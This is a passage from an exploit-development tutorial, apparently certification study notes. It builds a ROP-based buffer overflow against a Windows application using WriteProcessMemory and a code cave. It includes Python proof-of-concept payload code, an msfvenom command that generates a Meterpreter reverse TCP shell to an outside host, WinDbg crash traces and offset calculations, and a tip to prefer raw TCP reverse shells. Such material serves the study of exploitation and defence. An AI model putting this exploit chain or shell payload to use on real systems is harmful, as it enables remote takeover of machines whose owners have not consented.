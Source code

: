 Here we discover that the offset from the first DWORD after the ROP chain to lpBuffer is 0x6C bytes. We must add 0x6C bytes of padding before placing the shellcode. 

Let’s update our proof of concept with a second offset variable (offset2) and some dummy shellcode as shown below:
```python
offset2 = b"C" * 0x6C
shellcode = b"\x90" * 0x100
padding = b"D" * (0x600 - 276 - 4 - len(rop) - len(offset2) - len(shellcode)) 
# psCommandBuffer
formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" %(offset + wpm + eip + rop + offset2 + shellcode + padding,0,0,0,0)
```

Lastly, we generate the shellcode. Note that we cannot generate the shellcode with this encoding:
 ```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=8080 -b "\x00\x09\x0a\x0b\x0c\x0d\x20" -f python -v shellcode
```

As the shikata-ga-nai encoder (default) tries to overwrite its own shellcode, and the codecave section is not writable (once copied, it is only RX). This is what happens when we try to use a shellcode that modifies itself:

```c
0:085> g (1a54.fe8): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=01bb2c04 ebx=05ebc5b0 ecx=0000008d edx=1860bbcc esi=42424242 edi=00669360 eip=01bb2c14 esp=1111e30c ebp=41414141 iopl=0 nv up ei pl zr na pe nc cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00010246 
libeay32IBM019!N98E_bn_sub_words+0x108c:
01bb2c14 31501a xor dword ptr [eax+1Ah],edx ds:0023:01bb2c1e=9a884739
```
The highlighted assembly instruction attempted to modify a memory location pointed to by EAX+0x1A, which caused the crash. This pointer is pointing to an address within the code cave. We’re encountering an access violation error because the shellcode’s decoding stub expects the code to be stored in writable memory, but it is not.

We could write custom shellcode that does not contain any bad characters and by extension does not require a decoding routine. 
Alternatively, we could replace the bad characters and then leverage additional ROP gadgets to restore the shellcode before it’s copied into the code section. In the next section, we’ll pursue the latter approach.

In [osed_handmade_badchars_decoder](content/posts/osed_handmade_badchars_decoder.md) it's explained how the decoding process is done.
**Note: I tried to use HTTP reverse shell but it didn't work. Try raw TCP shell (it is smaller and works better)**
After decoding our shellcode, we must point EAX to the "simulated stack frame" of WriteProcessMemory, as EAX has been used and has been displaced.
We can calculate the offset from "eax" to the "simulated stack frame" dinamically.
Let's put a breakpoint right after we displace eax to point to our shellcode and right before decoding it and substracting the offset from the "simulated stack frame". We discover that the offset is 0x62f:
```c
eax=110ae91b ebx=0612aad8 ecx=fffff9e5 edx=76fd1670 esi=42424242 edi=00669360 eip=0327a7b8 esp=110ae3ac ebp=41414141 iopl=0 nv up ei pl nz ac pe cy 
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000217 
libeay32IBM019!N98E_BIO_f_cipher+0x388: 
0327a7b8 5b pop ebx 

0:084> dd eax-62f L7 
110ae2ec 75342890 032c2c04 ffffffff 032c2c04 
110ae2fc 110ae91c 0000020c 0331401c
```
Through trial and error, we discover that the difference from EAX to the start of the ROP skeleton is 0x62f. 